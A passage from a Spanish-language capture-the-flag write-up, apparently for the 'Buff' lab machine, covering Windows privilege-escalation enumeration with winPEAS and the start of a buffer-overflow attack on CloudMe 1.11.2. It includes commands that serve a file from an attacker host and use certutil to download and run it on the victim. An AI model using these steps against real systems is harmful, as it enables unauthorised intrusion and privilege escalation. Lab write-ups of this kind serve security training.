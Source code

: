 Como no vemos nada interressante aqui, lanzaremos un binario que nos permitta enumerar el systema para
encontrar vias potenciales para escalar privilegios. Vamos a utilizar el **winpeas**

#### Analysis de vulnerabilidad Privesc con WINPEAS {-}

```bash
cd c:\Windows\Temp
mkdir EEEE
cd EEEE
```

Descargamos el `winpeasx64.exe` desde [https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe).

```bash
cd content
cp /home/s4vitar/Descargas/firefox/winPEASx64.exe .
python3 -m http.server 80
```

Lo descargamos desde la maquina victima y lo lanzamos.

```bash
certutil.exe -f -urlcache -split http://10.10.14.8/winPEASexe.exe winPEAS.exe
winPEAS.exe
```

En la parte `Searching executable files in non-default folders with write (equivalent) permissions` vemos que
el ususario shaun tiene AllAccess al ejecutable `C:\Users\shaun\Downloads\CloudMe_1112.exe`. Mirando por internet 
vemos que CloudMe es un servico que occupa el puerto **8888**. Lo comprobamos con `netstat`

A demas buscamos con searchsploit y vemos que este binario es vulnerable a un BufferOverflow.

## BufferOverflow {-}

Aqui vamos a trabajar principalmente en la maquina windows. Analizando el exploit del BufferOverflow que nos da
searchsploit vemos que podemos descargarnos el binario `CloudMe_1112.exe` en el link `https://www.cloudme.com/downloads/CloudMe_1112.exe`.
Lo descargamos en la maquina Windows y lo installamos. La installacion es la typica de windows (next, next, next...).

Nos tenemos que crear un usuario y iniciar una session.

Una vez el programma lanzado, podemos comprobar que el servicio corre abriendo un cmd y lanzando el commando `netstat -nat`. Aqui vemos
que el puerto 8888 esta corriendo.

En esta situacion hay que entender que nosotros vamos a utilizar nuestra propria maquina windows como maquina de test. todo los passos siguientes
estaran echo en esta maquina y tendremos que hacerlo de nuevo en la maquina Buff. 

### Exponer el puerto 8888 hacia fuera {-}
